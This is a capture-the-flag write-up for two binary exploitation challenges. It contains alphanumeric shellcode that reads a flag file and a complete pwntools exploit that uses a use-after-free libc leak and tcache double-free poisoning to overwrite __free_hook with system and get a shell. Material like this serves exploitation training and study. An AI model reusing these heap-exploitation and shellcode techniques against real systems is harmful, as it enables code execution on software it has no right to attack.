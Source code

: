 ## easy-shell

The logic is simple, a `RWX` page is allocated from `mmap`, and we can execute arbitrary codes but contents must be `alphanum`. I used this [tool](https://github.com/veritas501/basic-amd64-alphanumeric-shellcode-encoder). However, the only problem is that this generator requires `rax` to be near the `shellcode` and `rax + padding_len == shellcode address`, but `rax` is `0` when our `shellcode` is executed. Thus, we can add `push r12; pop rax` in front of our payload and let `padding_len == 3`, which is the length of `push r12; pop rax`.

```python
from pwn import *
context(arch='amd64')

file_name = "flag".ljust(8, '\x00')

sc = '''
mov rax,%s
push rax
mov rdi,rsp
mov rax,2
mov rsi,0
syscall

mov rdi,rax
sub rsp,0x20
mov rsi,rsp
mov rdx,0x20
mov rax,0
syscall

mov rdi,0
mov rsi,rsp
mov rdx,0x20
mov rax,1
syscall

''' % hex(u64(file_name))
sc = asm(sc)
print asm("push r12;pop rax;") + alphanum_encoder(sc, 3)
```

Actually, by the way, `peasy-shell` can be done in the same way: just add more `push xxx; pop xxx;` to fill first page, and fill the second page with real payload being generated, which is `RWX`.

## HackIM Shop

A typical UAF and double free challenge. Firstly leak the address in `got` table to leak `libc` and find its version in `libc-database`, which is `2.27`, the same one in `Ubuntu 18.04 LTS`. This can be done by UAF and control the `pointer` field in the `struct`.

Then, since it is `2.27`, the `tcache` is used instead, so we can use `double free` to poison the `tcache` and `malloc` the chunk onto `__free_hook`, then rewrite it to `system` to get the shell.

`exp.py`

```python
from pwn import *
import json
g_local=True
context.log_level='debug'
p = ELF('./challenge')
e = ELF("./libc6_2.27.so")
if g_local:
	sh = process('./challenge')#env={'LD_PRELOAD':'./libc.so.6'}
	ONE_GADGET_OFF = 0x4526a
	UNSORTED_OFF = 0x3c4b78
	gdb.attach(sh)
else:
	ONE_GADGET_OFF = 0x4526a
	UNSORTED_OFF = 0x3c4b78
	sh = remote("pwn.ctf.nullcon.net", 4002)
	#ONE_GADGET_OFF = 0x4557a

def add(name, name_len, price=0):
	sh.sendline("1")
	sh.recvuntil("name length: ")
	sh.sendline(str(name_len))
	sh.recvuntil("name: ")
	sh.sendline(name)
	sh.recvuntil("price: ")
	sh.sendline(str(price))
	sh.recvuntil("> ")

def remove(idx):
	sh.sendline("2")
	sh.recvuntil("index: ")
	sh.sendline(str(idx))
	sh.recvuntil("> ")

def view():
	sh.sendline("3")
	ret = sh.recvuntil("{")
	ret += sh.recvuntil("[")
	ret += sh.recvuntil("]")
	ret += sh.recvuntil("}")
	sh.recvuntil("> ")
	return ret

add("0", 0x38)
add("1", 0x68)
add("2", 0x68)
remove(0)
remove(1)
#0x40 1 -> 0 -> 0 data

fake_struct = p64(0)
fake_struct += p64(p.got["puts"])
fake_struct += p64(0) + p8(0)

add(fake_struct, 0x38) #3
leak = view()
libc_addr = u64(leak[0x2e:0x2e+6] + '\x00\x00') - e.symbols["puts"]
print hex(libc_addr)

add("4", 0x68)

#now bins are clear

add("5", 0x68)
add("/bin/sh\x00", 0x68) #6
add("/bin/sh\x00", 0x38)
add("/bin/sh\x00", 0x68)
add("/bin/sh\x00", 0x68)
add("/bin/sh\x00", 0x68)
add("/bin/sh\x00", 0x68)
add("/bin/sh\x00", 0x68)

remove(5)
remove(5)
remove(7) #prevent 0x40 from being used up

add(p64(libc_addr + e.symbols["__free_hook"]), 0x68)

add("consume", 0x68)

gots = ["system"]

fake_got = ""
for g in gots:
	fake_got += p64(libc_addr + e.symbols[g])
add(fake_got, 0x68)

sh.sendline("2")

sh.recvuntil("index: ")
sh.sendline(str(6))
sh.interactive()
```

